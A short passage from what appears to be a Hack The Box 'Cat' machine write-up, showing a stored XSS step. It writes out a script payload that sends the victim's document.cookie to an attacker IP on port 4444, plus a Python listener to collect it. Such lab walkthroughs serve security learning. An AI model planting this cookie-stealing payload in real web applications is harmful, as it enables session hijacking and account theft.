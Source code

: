 Let's begin with `Stored XSS`, as there is no input filtration.

```Javascript
Payload - <script>document.location='http://10.10.xx.xx:4444/?c='+document.cookie;</script>
```

Since it's a Stored XSS, I have to start a listener.

```python
python -m http.server 4444
```

![Stored XSS - username](/assets/images/writeups/Cat-HTB/6.png)

After submitting the form, I logged in as the same user.
